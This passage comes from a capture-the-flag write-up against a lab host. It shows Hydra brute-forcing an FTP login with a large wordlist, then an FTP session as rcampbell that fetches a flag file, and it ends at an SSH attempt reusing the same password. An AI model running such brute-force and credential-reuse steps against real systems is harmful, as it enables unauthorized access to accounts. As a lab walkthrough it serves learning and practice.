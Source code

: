 ```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-20 22:48:28
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.167.61:21/
[STATUS] 304.00 tries/min, 304 tries in 00:01h, 14344095 to do in 786:25h, 16 active
[21][ftp] host: 10.10.167.61   login: gcrawford   password: b[REDACTED]6
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-20 23:15:24
```

- the hydra for gcrawford was taking way too long and turned out i didnt need it in the end.
- logged into ftp as campbell and got another flag
```bash
┌──(root㉿kali)-[~]
└─# ftp 10.10.167.61 21          
Connected to 10.10.167.61.
220-Ellingson Mineral Company FTP Server
220-
220-WARNING
220-Unauthorised Access is a felony offense under the Computer Fraud and Abuse Act 1986
220 
Name (10.10.167.61:root): rcampbell
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||39239|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls
229 Entering Extended Passive Mode (|||61160|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||44255|)
150 Here comes the directory listing.
drwxr-x---    2 ftp      ftp          4096 Apr 30  2020 .
drwxr-x---    2 ftp      ftp          4096 Apr 30  2020 ..
lrwxrwxrwx    1 ftp      ftp             9 Apr 30  2020 .bash_history -> /dev/null
-rw-r--r--    1 ftp      ftp           220 Apr 29  2020 .bash_logout
-rw-r--r--    1 ftp      ftp          3771 Apr 29  2020 .bashrc
-r--------    1 ftp      ftp            38 Apr 30  2020 .flag
-rw-r--r--    1 ftp      ftp           807 Apr 29  2020 .profile
226 Directory send OK.
ftp> get .flag
local: .flag remote: .flag
229 Entering Extended Passive Mode (|||11093|)
150 Opening BINARY mode data connection for .flag (38 bytes).
100% |**************************|    38       50.48 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (21.10 KiB/s)
ftp> exit
221 Goodbye.
```
- since there was two users provided and 3 ssh accounts open i figured theres 1 root and the 2 we found so i tried the same password for ssh and it worked.
```bash
┌──(root㉿kali)-[~]
└─# ssh rcampbell@10.10.167.61
The authenticity of host '10.10.167.61 (10.10.167.61)' can't be established.
ED25519 key fingerprint is SHA256:h5AEIGHsr8ICezAIclTEDV4ACuGkC/SeSi9Gb2Rik1g.
This key is not known by any other names
```
